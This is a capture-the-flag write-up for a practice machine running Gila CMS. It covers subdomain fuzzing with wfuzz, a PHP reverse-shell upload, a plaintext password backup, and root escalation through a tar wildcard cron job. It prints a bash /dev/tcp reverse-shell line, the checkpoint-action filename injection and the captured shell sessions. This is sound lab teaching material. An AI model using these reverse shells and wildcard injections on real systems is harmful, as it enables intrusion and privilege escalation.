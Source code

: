 ![](Images/qnV5dJQ.png)
What we can learn from this machine 
* Enumerations
* tar crontab
* PHP-reverse-shell
* wfuzz 

Let's start with a nmap scan. 
```
# Nmap 7.91 scan initiated Fri Jun 11 17:04:10 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.250.5
Nmap scan report for 10.10.250.5
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp   open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1247/tcp filtered visionpyramid
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 17:04:59 2021 -- 1 IP address (1 host up) scanned in 49.19 seconds
```
Looks like we got a web page called **gilla CMS** and we got a port 22 ssh open. 

![](Images/home.png)

Let's run a dirb scan just in case. Dirb give me a ton of directories. Among them I found this login page. (cmess.thm/admin/)

![](Images/admin.png)

If we look at the hints. It told us to ``Have you tried fuzzing for subdomains?`` fuzz let's do this with wfuzz.

Here is the command I used for wfuzz :

```bash
wfuzz -c -w /opt/seclist/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290 
```
First I didn't specify wordcount. It gives me lot of 290. Then I specify wordcount using **--hw 290**.Let's see that in action.

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                        

Total time: 88.31007
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 56.49411
```
we get a subdomain dev.cmess.thm. We add it to our /etc/hosts file to the same IP address as of cmess.thm. we can see the page like this.

![](Images/web.png)

It seems to be a chat between user andre and the support. And we get the email and password for the user andre which can be used for login in the cms. 

Our credentials

* Email: andre@cmess.thm
* Password: KPFTN_f2yxe%

![](Images/about.png)

After the login you can see the **Gila CMS** version number. But I didn't go ahead and search for exploit. Looking around, we see that we have the ability to upload files to the machine at **Content -> File Manager** option. 

![](Images/upload.png)

We can upload the **php-rev-shell** now. Let's setup a netcat listner and upload the file.

After we upload it. You can find it in assests. 

![](Images/shell.png)

After we execute it. We got the call back.

```bash
┌─[visith@parrot]─[~/CTF/thm/CMeSS]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.182] from (UNKNOWN) [10.10.250.5] 32872
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:16:04 up 42 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@cmess:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
```
After some enumerations. MySQL database password in **/var/www/html**. It's file called config.php. But this is long way to get andre's password. 

When we go into the **/opt/** directory. You can see hidden file called
**.password.bak**. It gives andre's password.

```bash
www-data@cmess:/$ cd opt
cd opt
www-data@cmess:/opt$ ls -la
ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Our ssh login credentials 
* User: andre
* password: UQfsdCB7aAP6

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/CMeSS]
└──╼ $ssh andre@10.10.250.5
andre@10.10.250.5's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ ls
backup  user.txt
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6**************}
```
We got our first flag. Let's try to run sudo.

```bash
andre@cmess:~$ sudo -l
[sudo] password for andre: 
Sorry, user andre may not run sudo on cmess.
```
We can't run sudo with this user. Let's run a linpeas and see what we got.

![](Images/linpeas.png)

Linpeas shows us some interesting cron jobs.linpeas marks it as 99% PE vector. We see that the cron job backups everyting under the folder **/home/andre/backup** to the /tmp folder as a **tar**. For tar ing the files, it uses wildcard. Googling for a bit, we find that this wildcard can be exploited.

This exploit has been very well explained in this blog :
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```bash
andre@cmess:~$ cd backup/
andre@cmess:~/backup$ ls
note
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up! 
```
As we found in linpeas output. They put a note to us. Let's try to exploit. 

we need write a script shell.sh that gives us a reverse shell. This was my rev shell. 

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.2.182/4242 0>&1
```
Let's execute our exploit like this.
```bash
andre@cmess:~/backup$ nano shell.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=bash shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ echo "" > --checkpoint=1
```
And after a bit of time, we get our root shell and can read the root.txt under /root.

```bash
┌─[visith@parrot]─[~/CTF/thm/CMeSS/www]
└──╼ $nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.9.2.182] from (UNKNOWN) [10.10.250.5] 60638
bash: cannot set terminal process group (21478): Inappropriate ioctl for device
bash: no job control in this shell
root@cmess:/home/andre/backup# cd /root
cd /root
root@cmess:~# ls
ls
root.txt
root@cmess:~# cat root.txt
cat root.txt
thm{9f85b7fdeb2cf9698**************}
root@cmess:~#
```

Thx for reading !!

Have a nice day










